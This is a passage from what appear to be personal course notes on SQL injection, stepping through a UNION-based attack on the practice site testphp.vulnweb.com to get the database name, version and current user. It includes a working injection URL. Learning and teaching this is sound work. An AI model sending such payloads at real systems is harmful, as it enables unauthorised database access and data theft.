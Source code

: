 		<img src="../../notes-pics/03-Module/21_lecture/21_lecture-5-M3.jpg" alt="" width="500"/> <br>
		output : so we got the database name `acuart`
	- & in order to play with this webapp , then we'll only change 2nd & 3rd column cuz these are 2 which gives output
- STEP 5: finding version & current user
	- STEP 5.1 : `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1 ,version(),current_user()` -> hit enter , output : <br>